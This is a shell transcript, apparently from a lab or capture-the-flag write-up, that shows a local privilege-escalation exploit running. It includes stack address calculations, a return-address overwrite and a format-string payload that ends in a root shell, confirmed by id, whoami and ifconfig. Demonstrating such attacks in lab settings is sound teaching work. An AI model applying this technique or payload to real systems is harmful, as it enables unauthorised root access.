 ```shell
Attempting to gain root, try 1 of 10 ...
Starting subprocess
Stack content received, calculating next phase
Found source address location 0x7ffd51dd5e68 pointing to target address 0x7ffd51dd5f38 with value 0x7ffd51dd823f, libc offset is 0x7ffd51dd5e58
Changing return address from 0x7fb12375c830 to 0x7fb1237fbe00, 0x7fb123808a20
Using escalation string %69$hn%73$hn%1$9087.9087s%67$hn%1$1.1s%71$hn%1$23601.23601s%68$hn%72$hn%1$2671.2671s%70$hn%1$13280.13280s%66$hn%1$16896.16896s%1$24134.24134s%1$s%1$s%65$hn%1$s%1$s%1$s%1$s%1$s%1$s%1$186.186s%39$hn-%35$lx-%39$lx-%64$lx-%65$lx-%66$lx-%67$lx-%68$lx-%69$lx-%70$lx-%71$lx-%78$s
Executable now root-owned
Cleanup completed, re-invoking binary
/proc/self/exe: invoked as SUID, invoking shell ...
# id
uid=0(root) gid=0(root) groups=0(root),1001(nibbler)
# whoami
root
# ifconfig
ens192    Link encap:Ethernet  HWaddr 00:50:56:b9:7f:f0
          inet addr:10.10.10.75  Bcast:10.10.10.255  Mask:255.255.255.0
          inet6 addr: dead:beef::250:56ff:feb9:7ff0/64 Scope:Global
          inet6 addr: fe80::250:56ff:feb9:7ff0/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:1246080 errors:0 dropped:608 overruns:0 frame:0
          TX packets:912748 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:197464211 (197.4 MB)  TX bytes:372724538 (372.7 MB)

lo        Link encap:Local Loopback
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:6143 errors:0 dropped:0 overruns:0 frame:0
          TX packets:6143 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1
          RX bytes:604076 (604.0 KB)  TX bytes:604076 (604.0 KB)

#
```